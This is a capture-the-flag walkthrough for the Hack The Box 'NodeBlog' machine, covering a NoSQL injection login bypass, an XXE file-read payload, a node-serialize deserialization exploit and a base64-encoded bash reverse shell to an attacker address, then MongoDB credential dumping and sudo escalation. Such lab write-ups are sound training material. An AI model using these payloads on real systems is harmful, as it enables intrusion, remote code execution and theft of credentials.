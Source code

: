 # [NodeBlog](https://app.hackthebox.com/machines/nodeblog)

```bash
nmap -p- --min-rate 5000 10.10.11.139 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,5000 10.10.11.139
```

![alt text](img/image-1.png)


From nmap scan result, I see that there `Node.js` framework is used, maybe it is `MERN` application.


That's why `NoSQL` language is used for database.

While we see application, we have `login` page for port `5000`.


For testing `NoSQL Injection` payloads, I will do below steps.

1.First, I need to change `Content-Type` header into `application/json`.

2.Then, I need to send below payload which means `user` is admin but password not equal to `ne` to wrongpassword.
```bash
{"user": "admin", "password": {"$ne": "wrongpassword"}}
```


![alt text](img/image-2.png)



Now, we are on `Portal`, let's see what we can do on this page.

![alt text](img/image-3.png)



While I try to use `Upload` feature, I have such an error that I need to upload `XML` data.

![alt text](img/image-4.png)


One thing comes to my mind that there's `XXE` (External XML Entity) attack can be, let's try it out below payload.

```bash
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>dr4ks's Post</title>
        <description>Read File</description>
        <markdown>&file;</markdown>
</post>
```

![alt text](img/image-5.png)


Let's enumerate system files and application files to understand backend logic.


From errors as below, I see that I need to get this file `/opt/blog/server.js`.

![alt text](img/image-6.png)


I do the same `XXE` attack but for this source code file.

![alt text](img/image-7.png)


On source code, I see `node-serialize` that's why there can be attack called `Insecure Deserialization`, that's why I read this [blog](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) to make recap for `node.js` framework about serialization and deserialization of data.



From application's requst field, I got `Cookie` header and decode it on [CyberChef](https://cyberchef.io/).

![alt text](img/image-8.png)

![alt text](img/image-9.png)


Let's add our malicious payload as `URL-Encoded` into here.

For this, I will add below payload into request part.
```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.11', function(error, stdout, stderr){console.log(stdout)});}()"}
```

![alt text](img/image-11.png)

After `URL-Encoding` of this, I send and see result from `tcpdump`.

![alt text](img/image-10.png)


Now, it's time for `reverse shell`.

1.First, I create my reverse shell cmdlet as `base64` encoded.
```bash
echo 'bash -i >& /dev/tcp/10.10.14.11/1337 0>&1' | base64
```

![alt text](img/image-12.png)

2.Then add below payload into field as `URL-Encoded`.
```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMzM3IDA+JjEK|base64 -d|bash
```


My deserialized payload is below.
```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMzM3IDA+JjEK|base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```

![alt text](img/image-13.png)

I got reverse shell from port `1337`.

![alt text](img/image-14.png)


For privilege escalation, I just make enumeration on here by looking at `open` ports via `netstat`.

![alt text](img/image-15.png)


There's port `27017` is open which means `mongo`.

![alt text](img/image-16.png)


Let's do `mongodump` to see data of users.

![alt text](img/image-17.png)


On `dump` directory, I see `.bson` file, let's dump this via `bsondump` command.

![alt text](img/image-18.png)


From here, I see password of `admin` user.

admin: IppsecSaysPleaseSubscribe


Let's make `sudo -l` as we know password of admin user.

![alt text](img/image-19.png)


It means, we can do privilege escalation via just `sudo -s` command.


root.txt

![alt text](img/image-20.png)


user.txt

![alt text](img/image-21.png)
